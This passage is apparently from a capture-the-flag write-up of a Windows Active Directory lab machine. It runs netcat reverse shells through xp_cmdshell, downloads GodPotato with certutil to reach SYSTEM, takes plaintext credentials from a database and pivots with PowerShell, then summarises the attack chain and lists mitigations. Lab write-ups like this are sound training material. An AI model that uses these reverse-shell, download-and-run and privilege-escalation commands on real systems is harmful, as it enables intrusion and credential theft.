xp_cmdshell "C:\ProgramData\nc.exe 10.10.14.15 4444 -e cmd.exe";
```

```bash
hyena@hyena$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.118.40] 63961
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
scrm\sqlsvc
```

---

## Database Credential Discovery

### Enumerating Databases

```sql
SQL (SCRM\administrator dbo@master)> SELECT name FROM master.dbo.sysdatabases;
name
----------
master
tempdb
model
msdb
ScrambleHR
```

### Querying the ScrambleHR Database

```sql
SQL (SCRM\administrator dbo@master)> USE ScrambleHR;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: ScrambleHR
```

```sql
SQL (SCRM\administrator dbo@master)> SELECT * FROM UserImport;
LdapUser     LdapPwd                  LdapDomain
---------   ---------------------   --------------
MiscSvc      ScrambledEggs9900       scrm.local
```

**Critical Finding:** We discovered `MiscSvc:ScrambledEggs9900` credentials in plaintext.

---

## Lateral Movement - Switching to MiscSvc

### Using PowerShell to Switch Users

```powershell
$pass = ConvertTo-SecureString "ScrambledEggs9900" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("scrm.local\MiscSvc", $pass)
Invoke-Command -ComputerName dc1.scrm.local -Credential $cred {whoami}
scrm\miscsvc
```

### Getting the User Flag

```powershell
Invoke-Command -ComputerName dc1.scrm.local -Credential $cred {cat C:\Users\miscsvc\Desktop\user.txt}
39d**************************399
```

---

## Privilege Escalation to SYSTEM

### Checking Privileges

```cmd
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                DisabledSeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Using GodPotato to Escalate to SYSTEM

GodPotato is a privilege escalation tool that exploits `SeImpersonatePrivilege` to obtain a SYSTEM shell.

```bash
# Start HTTP server on Kali
hyena@hyena$ python3 -m http.server 8081
```

```cmd
# Download GodPotato
certutil -urlcache -f http://10.10.14.15:8081/GodPotato.exe C:\ProgramData\GodPotato.exe
```

```bash
# Start listener
hyena@hyena$ nc -lvnp 4445
```

```cmd
# Execute GodPotato
C:\ProgramData\GodPotato.exe -cmd "cmd /c C:\ProgramData\nc.exe 10.10.14.15 4445 -e cmd.exe"
[*] CombaseModule: 0x140712637104128
[*] DispatchTable: 0x140712639410240
[*] UseProtseqFunction: 0x140712638786768
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\3b67ed26-a8ea-4032-8f2c-35dfb78b1615\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000e402-010c-ffff-fb85-df3258c5f40f
[*] DCOM obj OXID: 0x91eb8685fca254d9
[*] DCOM obj OID: 0x54cac6edf85ba76b
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 912 Token:0x808  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3516
```

### Getting the SYSTEM Shell

```bash
hyena@hyena$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.118.40] 53162
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\> whoami
nt authority\system
```

### Getting the Root Flag

```cmd
C:\> type C:\Users\Administrator\Desktop\root.txt
b2a2a14701850cd8f953521d670d8a5f
```

---

## Final Results

| Flag | Status |
|:--|:--|
| **User Flag** | ✅ Captured: `39d**************************399` |
| **Root Flag** | ✅ Captured: `b2a2a14701850cd8f953521d670d8a5f` |


---

## Attack Chain Summary

```
Nmap Scan → Service Discovery → Domain Identification
    ↓
Web Enumeration → /passwords.html → Password = Username
    ↓
IT Support Page → ksimpson (username discovered)
    ↓
LDAP Enumeration → 15 domain users discovered
    ↓
Password Spray → ksimpson:ksimpson (valid credentials)
    ↓
Kerberos Setup → kinit → Get TGT
    ↓
Kerberoasting → sqlsvc TGS ticket
    ↓
Hashcat → Pegasus60 (cracked password)
    ↓
Silver Ticket → Administrator.ccache (forged ticket)
    ↓
SQL Server Connection → Administrator access
    ↓
Enable xp_cmdshell → Reverse shell as sqlsvc
    ↓
Database Query → MiscSvc:ScrambledEggs9900
    ↓
PowerShell Pivot → Switch to MiscSvc → user.txt
    ↓
GodPotato → SeImpersonatePrivilege → SYSTEM
    ↓
Root Flag → Complete Compromise ✅
```

---

## Mitigations & Security Recommendations

1. **Remove Password Reset Policy**: Never set passwords to match usernames. Implement strong password policies and enforce MFA.

2. **Disable NTLM**: NTLM is vulnerable to relay attacks. Use Kerberos exclusively with Extended Protection.

3. **Secure Service Accounts**: Service accounts should have strong, complex passwords that are rotated regularly. Consider using Group Managed Service Accounts (gMSAs).

4. **Disable `xp_cmdshell`**: Keep `xp_cmdshell` disabled in production SQL Server instances unless absolutely necessary.

5. **Remove Plaintext Passwords from Databases**: Never store credentials in plaintext. Use secure credential storage mechanisms.

6. **Restrict SeImpersonatePrivilege**: Service accounts should not have `SeImpersonatePrivilege` unless absolutely required.

7. **Monitor for Kerberoasting**: Alert on unusual TGS requests, especially from non-admin users.

8. **Monitor for Silver Tickets**: Alert on unusual authentication patterns to high-value services that don't contact the Domain Controller.

9. **Regular Security Assessments**: Conduct regular penetration testing and AD security assessments.

10. **Educate Users**: Train users on password security and phishing awareness.
